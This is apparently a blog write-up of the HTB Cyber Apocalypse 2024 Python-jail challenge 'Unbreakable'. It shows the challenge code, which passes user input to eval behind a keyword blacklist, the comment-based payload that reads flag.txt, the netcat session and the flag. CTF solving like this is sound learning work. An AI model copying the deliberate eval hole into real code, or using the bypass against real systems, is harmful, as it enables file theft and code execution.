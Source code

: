 ```yaml
---
title: HTB Cyber Apocalypse - Unbreakable
date: Sun Mar 17 08:06:44 PM +04 2024
categories: [Writeup]
tags: [ctf,htb,htb2024,htb_cyber_apocalypse_2024,misc,jailbreak]
---
```


## Description

Think you can escape my grasp? Challenge accepted! I dare you to try and break free, but beware, it won't be easy. I'm ready for whatever tricks you have up your sleeve!

Challenge: 

```py
#!/usr/bin/python3

banner1 = '''<SMILE>'''
banner2 = '''<RABBIT>'''

blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```

## Solution

We are given netcat port to connect to which places us in Python Jail. `blacklist` limits what we can do, my initial thought was `breakpoint` but `b` is blocked. Since we know flag to be in current directory we can use `print(open(flag).read())` to get flag contents.

`eval` function adds `()` to our command which can be ignored by comment.

```py
➜ ncat 94.237.62.149 57503
Break me, shake me!

$ print(open('flag.txt').read())#
HTB{3v4l_0r_3vuln??}

WHAT WAS THAT?!

Break me, shake me!
```

> Flag: HTB{3v4l_0r_3vuln??}
{: .prompt-tip}